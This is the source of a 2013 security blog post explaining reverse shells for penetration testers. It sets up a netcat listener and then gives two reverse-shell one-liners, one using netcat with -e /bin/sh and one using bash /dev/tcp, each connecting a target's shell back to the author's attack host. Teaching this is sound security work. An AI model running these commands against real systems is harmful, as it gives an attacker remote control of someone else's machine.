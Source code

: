 ```yaml
---
title: "Reverse shell methods"
date: "2013-09-30T12:00:00-04:00"
url: "/posts/reverse-shell-methods"
categories:
- infosec
tags:
- shells
- pentesting
summary: "Methods for obtaining reverse shells"
showtoc: true
---
```

Welcome and Hello!  Let's get started...  Today's topic: Reverse Shells

# What is a Reverse Shell?

A reverse shell is a method by which penetration testers (and bad guys!) can
gain a shell, or user command access, on a target.  They are very useful because
they initiate communication from a trusted host inside the perimeter to a host
outside of the perimeter.  This means a reverse shell has the capability to
bypass firewall ingress rules, which would prevent incoming connections - aka
bind shells - from reaching into the network to gain user command access on a
host.

See this [SANS paper][SANS] by Richard Hammer for a good overview of Reverse
Shells.

# Gaining a Reverse Shell

The first thing I do is start my listener.  This listener is crucial, as it
waits for commands I will send it from my victim's host and then do something
useful with them.

On my attack box (10.25.43.35):

```bash
$ nc -lv 8080
```
{{< figure src="/images/2013/09-30-1.png" caption="netcat listener" >}}

Now, netcat (or nc) is listening on port 8080 for incoming connections (-l) and
will print them verbosely (-v) to standard output.  All of the reverse shell
methods detailed below will reach back to this listener to establish a
connection with my attack host.

On the target's box: Here, I may or may not have several options for
communicating back to my host.  I'll outline two methods, using netcat and bash,
which are common binaries found on a target Unix box.

Note: These commands all work under the assumption I can execute commands in a
limited fashion on my victim's host already.  "Why go through the trouble of
opening a reverse shell if you can already access commands on your target?"
would be a valid question.

During a penetration test, you may discover you have the limited ability to
execute a command on a remote host.  For instance, an un-sanitized text entry
box on a website may allow you to pass a command the web server wasn't
expecting.  Perhaps you've tricked a user into clicking on a malicious link, or
opening a malicious file which executes a small set of commands.  Maybe your
target is running Windows XP and hasn't patched against [MS08-067][MS08067]
(still my favorite exploit of all time :D).

Whatever the reason you don't have full interactive access to your target, but
you want it.  You crave it.  I do, too!

Using netcat:

```bash
$ nc -e /bin/sh 10.25.43.35 8080
```

This causes my victim's box to execute /bin/sh and connect to my attacker's box
over port 8080.  As you can see in the screenshot, I'm not getting a lot of
feedback in the shell (note: no prompt)

{{< figure src="/images/2013/09-30-2.png" caption="connect back netcat" >}}

Using bash:

```bash
$ bash -i > /dev/tcp/10.25.43.35/8080 0<&1 2>&1
```

This uses the bash shell's I/O redirection and built-in method for TCP
connections to open a reverse shell.  I particularly like this method because
the syntax gives me a headache (I'm still trying to wrap my head around this
level of [I/O redirection][IOredir]) and because nearly every Unix box has bash
installed.

{{< figure src="/images/2013/09-30-3.png" caption="connect back bash" >}}

If your victim's host has python, perl, php, or ruby installed - which is very
likely - you can check out [pentestmonkey's cheat sheet][ptmonkey] for examples
of how to gain reverse shells using those methods.

[SANS]: http://www.sans.org/reading-room/whitepapers/covert/inside-out-vulnerabilities-reverse-shells-1663?show=inside-out-vulnerabilities-reverse-shells-1663&cat=covert
[ptmonkey]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[IOredir]: http://www.tldp.org/LDP/abs/html/io-redirection.html#IOREDIRREF
[MS08067]: http://technet.microsoft.com/en-us/security/bulletin/ms08-067
